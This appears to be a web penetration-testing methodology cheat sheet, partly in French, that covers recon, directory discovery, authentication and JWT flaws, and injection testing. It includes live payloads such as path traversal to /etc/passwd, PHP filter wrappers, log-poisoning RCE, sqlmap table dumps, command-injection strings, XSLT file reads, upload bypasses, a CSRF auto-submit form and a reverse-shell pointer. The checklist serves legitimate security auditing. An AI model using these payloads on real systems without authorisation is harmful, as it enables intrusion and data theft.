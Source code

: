 # Tools
- Javascript deobfuscator/beautifier
- cURL (client http en CLI)
- Burp Suit (HTTP proxy, scanner) + extensions CEO (SQLmap) et JSON web token attacker (JOSEPH)
- dirb/wfuzz (website directory discover)
- SecLists (https://github.com/danielmiessler/SecLists)

# Methodology
## OSINT/Recon 
- **ping**  
	`$ ping www.site.com`  
- **whois**  
	`$ whois www.site.com`  
	`$ whois <ip>`  
- **google dorks**  
	Search for credentials  
			`"intext:<thetarget> AND intext:@gmail.com AND intext:password"`   
	Tools : FastGoogleDorks, theharvester      
- **DNS**  
	DNS records :  
	`$ dig domain.com ANY`  
	`PS> nslookup -q=TXT domain.com`  
	AXFR zone  transfert 
- **VHOSTS** : HTTP "Host" header modification or "/etc/hosts" file modification to access potential VHOST  
- **Subdomains enumeration**  
	`$ amass enum -passive -d domain.com -src`  
- **Network scan**
	`$ nmap -p- sV site.com // -A version detection -oA fichier_out`    

## Client source code
- **Information** : CMS version ; file disclosure(.js files) ; unsafe cross-domain include

## Server config
Information gathering & vuln identifier: 
https://github.com/codingo/Reconnoitre 

### URL: 
- **Unprotected references/directory listing** : dirb+wfuzz w/ SecLists (raft-medium-files.txt & raft-large-files.txt) (unprotected refs such as /admin/, robots.txt, sitemap.xml, etc.)  
- **Backup files** : /dev/, index.php~, /.git/, index.php.bak, index.php.old, .phps, .swp, etc.
- **Full Path Disclosure** [/index.php?file[]=1   (array include bug 'can't include an array'), https://www.owasp.org/index.php/Full_Path_Disclosure]
- **Redirections** : $ curl -v 

### REQUESTS:
- Test all headers 
- Test all methods (TRACE, PUT, DELETE, OPTIONS)
- Verb tampering (.htacces -> request w/ custom method $ curl -X YOLO)

- Fonctions PHP dangereuses, evaluation de code (preg_replace()+e modifier, assert(), include()...)
- PHP type juggling (loose comparison, strcmp(array()), magic hashes)
- Packages vulnerables ex:phpbb [www.exemple.com/phpbb/install/...]

## Authentication

- Authentication (Cookies, JWT, etc...)
[JWT attacks : Burp Extension : None algorithm header change, signature algorithm bypass, bruteforce]
- Cloisonnement users ? privesc ? lateral move ? -> Burp AuthMatrix
- CSRF ? [is the auth cookie-based ? is there an unpredictable element checked on the server-side for each request ?]

## Injections & inputs sanitizing

### SERVER SIDE:
- Check PayloadAllTheThings ( https://github.com/swisskyrepo/PayloadsAllTheThings )  

**File inclusion**  
LFI :  
	`?f=../../etc/passwd, wrappers(voir PDF wrappers-filters): ?inc=php://filter/read=convert.base64-encode/resource=`
	+ double encoding  
LFI to RCE : try PHP code injection from Apache logs : Request GET /<?php phpinfo(); ?> then include the /var/log/apache2/access.log file
RFI : base64, view_source()...
test : pass arrays as arguments, some PHP functions may give verbose errors (ex strcmp(), include(), etc.)
Escaping : CRLF `%0A`, NULL BYTE`%00`, Php truncation `a/../admin.html/./.[x4096]././././`  
 
**Path traversal**  
[DotDotPwn]

**SQL injection**  
[authentification(classic,gbk=å‘µ' or 1=1 #, \xbf\x27), string(identify columns number with ' UNION SELECT NULL,NULL,NULL, numÃ©rique, SQLmap]
SQLi method : 
	If format like "id=1" -> integer-based injection
	If format like "username=toto" -> string-based injection

	1 - Target the field of the request
	2 - Find if it is string-based or integer-based
	3 - Try to trigger an error
	4 - Try to fallback on the default payload by modifying it 

[sqlmap -u "http://testsite.com/login.php" --dbs]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db --tables]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db -T users --dump] 
order by : column numbers
Error based : convert(), file_name()...

**Command injection**  
[original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
Command execution inside a command :
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)]

**XPATH injection**   


**Template injection**  
${2*2} (server-side,voir PDF)

**LDAP injection**  
(&(uid=*))(userPassword=*)(&))

**XSLT code execution**  
exemple :  
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">  
<xsl:template match="/">  
<xsl:value-of select="php:function('file_get_contents','index.php')"/>  
<xsl:value-of select="php:function('opendir','/directory/')"/>  
<xsl:value-of select="php:function('chdir','/directory/')"/>  
<xsl:value-of select="php:function('readdir')"/>  
</xsl:template>  
</xsl:stylesheet>  


**XXE (XML External Entity)**  
exemple dans un flux rss :   
TODO 

**GraphQL injection**  
- query={__schema{types{name,fields{name}}}} to enumerate 

**FILE UPLOAD**  
- Send an EICAR file (for audits)
- PUT method
- Double extension [.php.jpg]
- Type MIME modification : change Content-Type : "application/x-php" to "image/gif", "image/png", "image/jpeg"
- Null byte  
.php%00.jpg
.php\x00.jpg
- Magic bytes file signature(ex : add GIF89a in the beginning of the file for .gif)
- zip + lien symbolique (zip --symlinks test.zip lien, avec ln -s /etc/passwd lien)

### CLIENT SIDE:
**XSS**  
[document.write(unescape()), document.write(String.fromCharCode(unicode))]

**CSRF**  
3 regles :
1. L'attaquant a une raison de provoquer l'atq
2. Authentification repose uniquement sur des cookies de session
3. Pas d'element impredictible dans la requete
-> Generate CSRF PoC Burp
exemple de form : ( <form name="test" method="post"
action="http://sitevuln.fr/profiles/?action=profile">
<input type="checkbox" name="admin" checked >
</form>
<script>document.test.submit()</script>)


## Encryption protocols & ciphers
- testssl.sh : weak ciphersuites/protocols ?

## NETWORK =

- Transfert de zone DNS si misconfig [dig @SERVEURDNS -p *port* AXFR *domaine*]
- LDAP null bind [ldapsearch -x -h *le.server.ldap* -p *port* -s base -b '' "(objectClass=*)" "*" +]

# Exploitation

- Reverse shell : pentestmonkey php reverse shell
